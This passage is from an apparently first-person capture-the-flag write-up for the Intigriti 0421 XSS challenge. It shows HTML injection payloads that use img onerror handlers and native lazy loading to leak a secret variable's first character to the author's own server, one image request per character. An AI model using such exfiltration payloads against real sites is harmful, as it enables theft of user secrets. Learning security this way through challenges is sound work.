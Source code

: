 ```
VM82:1 Uncaught DOMException: Blocked a frame with origin "https://challenge-0421.intigriti.io" from accessing a cross-origin frame.
```

Then I remembered a trick I learned somewhere, using image loading.

For example, if you make an image not load, and then use `++` to change the CSS or other properties to make it load, then I can know this information from the server.

I tried this:

``` html
<img id=n0 src=//server/n0 style="opacity:0;">
<img src=x onerror=identifier<'1'?n0.style.opacity++:...>
```

But the image would still load even if the opacity was 0, so it didn't work. Later, I tried several other properties and remembered one I had used recently: `loading`.

In the past, if you wanted to lazy load images, you would often use a plugin, and earlier you needed to detect scrolling, but recently you can use `IntersectionObserver`. And more recently, many browsers support native lazy loading: `<img src=x loding="lazy">`, and if the image is not too far from the visible area, it will not be loaded.

So we can do this:

``` html
<div style="height: 9999px"></div>
<img id=n0 src=//server/n0 loading="lazy">
<img src=x onerror=identifier<'1'?n0.loading++:...>
```

First, use a very high div to push the image down, outside the threshold, and then when we confirm that the first character is 0, we increase the loading of `n0`, which will become NaN after `++`, and because loading does not have NaN as a value, it will fallback to the default auto and load the image.

Assuming `server/n0` is my own server, then I receive the n0 request, which means the first character is 0. With this idea, we can indeed know what the first character is, like this:

``` html
<div style="height: 9999px"></div>
<img id=n0 src=//server/n0 loading="lazy">
<img id=n1 src=//server/n1 loading="lazy">
<img id=n2 src=//server/n2 loading="lazy">
<img src=x onerror=
identifier<'1'?n0.loading++:
identifier<'2'?n1.loading++:
identifier<'3'?n2.loading++:
...>
```

We have the first character! But what about the second one?

We cannot use `identifier[1]` because we cannot use brackets. I thought about all kinds of possibilities and felt that this was a dead end. It was impossible to get the nth character without using `[](){}`.

## Solving the weakened version?
